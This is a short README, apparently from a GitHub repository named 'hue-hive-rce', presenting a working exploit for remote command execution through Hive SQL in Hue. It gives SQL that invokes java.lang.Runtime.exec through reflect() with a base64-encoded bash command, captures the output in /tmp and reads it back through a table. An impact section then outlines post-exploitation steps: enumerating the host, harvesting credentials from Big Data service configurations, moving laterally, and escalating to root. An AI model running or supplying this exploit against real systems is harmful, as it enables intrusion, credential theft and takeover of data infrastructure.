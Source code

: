 # hue-hive-rce
 
## Preparation
```sql
create table workspace_hs.out as select "Hendrik Schultze @ InnoGames";
truncate table workspace_hs.out;
```

## Command and get output
```sql
SELECT reflect("java.lang.Runtime", "exec", concat("bash -c {echo,",base64(encode("${cmd} &> /tmp/out", 'UTF-8')),"}|{base64,-d}|{bash,-i}"));
truncate table workspace_hs.out;
LOAD DATA LOCAL INPATH '/tmp/out' INTO TABLE workspace_hs.out;
select * from workspace_hs.out;
```

### Example
![alt text](screen-2020-04-28-11-20-20.png "Usage example")

### Impact
Depending on the user (`hive` or worst case `root`) we can at least save and run scripts inside the datacenter from `/tmp`.
Therefore we can use that server as base for future attacks in the whole environment, checking the local server (`ss -tulpn`,`ps auxf`, enumeration...) or watching for other server.
Often internal Big Data systems are not fully protected because they are setup insecure by default.
These allows us to read configurations (potential credentials etc) from the Apache ResourceManage, Apache ZooKepe, etc.
As these BigData stack offer many APIs. We can submit MapRed Jobs, executed on HDFS, connect to Apache Kafka or many other options.
If we should not be `root`, we often can easly to escalate to `root` e.G. with [logrotten](https://github.com/whotwagner/logrotten).
